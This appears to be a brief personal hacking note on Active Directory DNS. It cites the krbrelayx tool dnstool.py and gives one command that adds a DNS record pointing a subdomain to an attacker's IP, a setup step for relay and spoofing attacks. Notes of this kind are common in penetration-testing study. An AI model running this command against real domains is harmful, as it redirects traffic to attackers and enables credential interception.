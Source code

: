 # active directory  DNS adding DNS records
https://github.com/dirkjanm/krbrelayx
dnstool.py
```bash
python3 dnstool.py -u 'domain.local\username' -p password123 -a add -r subdomain.domain.local -d $ATTACKER_IP $IP
```

# References
- [20221003151129](/zet/20221003151129/) active directory  DNS
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:
    #assorted

